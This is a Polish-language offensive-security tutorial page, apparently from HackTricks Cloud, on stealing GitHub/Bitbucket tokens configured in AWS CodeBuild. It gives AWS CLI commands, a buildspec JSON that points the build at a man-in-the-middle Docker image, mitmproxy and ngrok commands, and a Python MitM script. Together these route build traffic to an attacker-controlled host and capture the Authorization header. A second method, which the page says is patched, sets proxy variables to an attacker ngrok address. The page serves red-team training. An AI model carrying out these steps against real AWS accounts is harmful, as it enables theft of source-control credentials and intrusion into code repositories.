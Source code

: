 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Odzyskiwanie skonfigurowanych tokenów Github/Bitbucket

Najpierw sprawdź, czy są skonfigurowane jakiekolwiek poświadczenia źródłowe, które możesz wyciekować:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Jeśli stwierdzisz, że uwierzytelnienie do na przykład Github jest ustawione w koncie, możesz **ekstrahować** ten **dostęp** (**token GH lub token OAuth**) poprzez sprawienie, że Codebuild **użyje konkretnego obrazu docker** do uruchomienia budowy projektu.

W tym celu możesz **utworzyć nowy projekt Codebuild** lub zmienić **środowisko** istniejącego, aby ustawić **obraz Docker**.

Obraz Docker, którego możesz użyć, to [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). To bardzo podstawowy obraz Docker, który ustawi **zmienne środowiskowe `https_proxy`**, **`http_proxy`** i **`SSL_CERT_FILE`**. To pozwoli ci przechwycić większość ruchu hosta wskazanego w **`https_proxy`** i **`http_proxy`** oraz zaufać certyfikatowi SSL wskazanemu w **`SSL_CERT_FILE`**.

1. **Utwórz i prześlij swój własny obraz Docker MitM**
* Postępuj zgodnie z instrukcjami repozytorium, aby ustawić swój adres IP proxy i ustawić swój certyfikat SSL oraz **zbudować obraz docker**.
* **NIE USTAWIAJ `http_proxy`**, aby nie przechwytywać żądań do punktu końcowego metadanych.
* Możesz użyć **`ngrok`** jak `ngrok tcp 4444`, aby ustawić proxy do swojego hosta.
* Gdy masz zbudowany obraz Docker, **prześlij go do publicznego repozytorium** (Dockerhub, ECR...)
2. **Ustaw środowisko**
* Utwórz **nowy projekt Codebuild** lub **zmodyfikuj** środowisko istniejącego.
* Ustaw projekt, aby używał **wcześniej wygenerowanego obrazu Docker**.

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Ustaw proxy MitM na swoim hoście**

* Jak wskazano w **repozytorium Github**, możesz użyć czegoś takiego:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
Wersja **mitmproxy używana to 9.0.1**, zgłoszono, że w wersji 10 może to nie działać.
{% endhint %}

4. **Uruchom budowę i przechwyć dane uwierzytelniające**

*   Możesz zobaczyć token w nagłówku **Authorization**:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Można to również zrobić z aws cli za pomocą czegoś takiego

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Via HTTP protocol~~

{% hint style="success" %}
**Ta podatność została naprawiona przez AWS w pewnym momencie w tygodniu 20 lutego 2023 roku (myślę, że w piątek). Więc atakujący nie może już tego nadużywać :)**
{% endhint %}

Atakujący z **podwyższonymi uprawnieniami w CodeBuild mógłby ujawnić token Github/Bitbucket** skonfigurowany lub jeśli uprawnienia były skonfigurowane za pomocą OAuth, **tymczasowy token OAuth używany do uzyskania dostępu do kodu**.

* Atakujący mógłby dodać zmienne środowiskowe **http\_proxy** i **https\_proxy** do projektu CodeBuild wskazujące na jego maszynę (na przykład `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Następnie zmienić URL repozytorium github na używający HTTP zamiast HTTPS, na przykład: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Następnie uruchomić podstawowy przykład z [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) na porcie wskazanym przez zmienne proxy (http\_proxy i https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Na koniec kliknij na **Zbuduj projekt**, **poświadczenia** zostaną **wysłane w czystym tekście** (base64) do portu mitm:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Teraz atakujący będzie mógł użyć tokena ze swojej maszyny, wylistować wszystkie posiadane uprawnienia i (nadużywać) łatwiej niż korzystając bezpośrednio z usługi CodeBuild.
{% endhint %}

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
